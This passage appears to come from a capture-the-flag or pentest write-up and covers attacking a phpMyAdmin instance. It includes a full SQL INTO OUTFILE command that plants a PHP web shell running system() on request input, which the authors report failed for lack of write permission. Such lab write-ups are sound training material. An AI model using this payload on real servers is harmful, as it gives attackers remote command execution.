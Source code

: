 
## 5. Phpmyadmin

We first tried to reverse hashed password of users but didn't succeed: <br>![](./img/hash-passwd.png)

Then, we perform a **SQL injection** to install a **backdoor**, we learned 
[here](https://cloudinvent.com/blog/backdoor-webserver-using-mysql-sql-injection/) that this is possible to create
a new file containing whatever text we want: <br>![](./img/how-to-sql-inject.png)

Then, we create a **php** file containing a system call with request parameter as input by executing
the following command in **SQL console**:<br>
```
SELECT "<form action='/forum/hackedyou4.php' method='GET'>Hacked you :<input type='text' name='hackedyou'><input type=submit value='Hack'><br><br><?php system($_REQUEST['hackedyou']);?>" INTO OUTFILE "/var/www/forum/templates_c/hackedyou4.php"
```

It doesn't work, we have no write right there: <br>![](./img/sql-error.png)
